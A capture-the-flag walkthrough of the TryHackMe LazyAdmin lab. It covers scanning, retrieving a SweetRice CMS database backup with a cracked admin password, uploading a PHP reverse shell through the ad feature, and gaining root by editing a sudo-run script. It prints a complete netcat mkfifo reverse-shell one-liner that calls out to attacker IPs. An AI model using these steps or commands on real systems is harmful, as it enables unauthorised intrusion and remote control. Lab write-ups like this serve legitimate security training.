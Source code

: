 # LazyAdmin - TryHackMe

## Scanning

- NMAP
	- port 22 : OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	- port 80 : Apache httpd 2.4.18 ((Ubuntu))

Likely going to do some web exploit for either reverse shell or direct ssh credentials

Navigating to the webpage only gets default apache page

- GoBuster : Directory scanning

	- scanning with gobuster, found /content directory
	- **Find that the webpage is using SweetRice, a CMS**
	- Further scanning finds inc/ directory 
	- Contains **mysql backup** directory
	- Also find SweetRice login page at /content/as

- MySQL Backup file: 

	- wget http://IP/content/inc/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql
	- line 14 insert command has a hashed password for manager user
	- hash is md5
	- **password**: Password123

- After login:
	- Admin page allows us to start/stop the webpage, create posts, etc
	- **Most importantly, an ad can be created by directly uploading code**

## Exploitation

- Using the ad publish feature, we can inject some sort of reverse shell
- Further research from EDB:
	- RCE only works with PHP in the ads upload
- Exploit:
	- PHP reverse shell from pentest monkey
	- php-reverse-shell.php
	- Change IP to vpn-assigned IP
	- Change port to preferred port
	- Start nc on given port
	- Navigate to http://ip/content/ads/ and click on reverse shell php executable

- **user flag** : /home/itguy/user.txt

## Priv Esc

- sudo -l to see what can be ran as sudo
	- (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

- backup.pl: 
	- 	#!/usr/bin/perl
		system("sh", "/etc/copy.sh");
	- no write acess

- copy.sh:
	- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\>&1|nc 192.168.0.190 5554 \>/tmp/f
 	- Already creates a reverse shell
	- write access(!) so just need to change the ip to ours
	- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.66.102 5554 \>/tmp/f

- Open another nc listener using port 5554
- Run sudo /usr/bin/perl /home/itguy/backup.pl
	- if sudo is not used, another user-level shell will be created

- **root flag** : /root/root.txt







